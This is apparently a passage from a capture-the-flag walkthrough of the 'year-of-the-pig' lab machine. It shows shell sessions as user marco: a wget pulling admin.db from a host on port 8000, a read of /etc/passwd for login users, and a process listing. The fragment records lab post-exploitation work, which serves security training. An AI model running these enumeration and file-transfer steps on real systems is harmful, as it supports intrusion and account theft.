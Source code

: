 		?>
	</body>
</html>
marco@year-of-the-pig:/var/www/html/admin$ 






wget http://10.201.86.29:8000/admin.db -o admin.db


marco@year-of-the-pig:/var/www$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
marco:x:1000:1000::/home/marco:/bin/bash
curtis:x:1001:1001::/home/curtis:/bin/bash



marco@year-of-the-pig:/var/www$ ps -eo pid,user,command
  PID USER     COMMAND
    1 root     /sbin/init
    2 root     [kthreadd]
    4 root     [kworker/0:0H]
    6 root     [mm_percpu_wq]
    7 root     [ksoftirqd/0]
    8 root     [rcu_sched]
    9 root     [rcu_bh]
   10 root     [migration/0]
   11 root     [watchdog/0]
   12 root     [cpuhp/0]
   13 root     [kdevtmpfs]
   14 root     [netns]
   15 root     [rcu_tasks_kthre]
   16 root     [kauditd]
   17 root     [xenbus]
   18 root     [xenwatch]
   20 root     [khungtaskd]
   21 root     [oom_reaper]
   22 root     [writeback]
   23 root     [kcompactd0]
   24 root     [ksmd]
   25 root     [khugepaged]
   26 root     [crypto]
   27 root     [kintegrityd]
   28 root     [kblockd]
   29 root     [ata_sff]
   30 root     [md]
   31 root     [edac-poller]
   32 root     [devfreq_wq]
   33 root     [watchdogd]
   36 root     [kswapd0]
   37 root     [kworker/u31:0]
   38 root     [ecryptfs-kthrea]
   80 root     [kthrotld]
   81 root     [acpi_thermal_pm]
   82 root     [scsi_eh_0]
   83 root     [scsi_tmf_0]
   84 root     [scsi_eh_1]
   85 root     [scsi_tmf_1]
   88 root     [kworker/0:2]
   92 root     [ipv6_addrconf]
  102 root     [kstrp]
  119 root     [charger_manager]
  172 root     [ttm_swap]
  264 root     [kworker/0:1H]
  265 root     [raid5wq]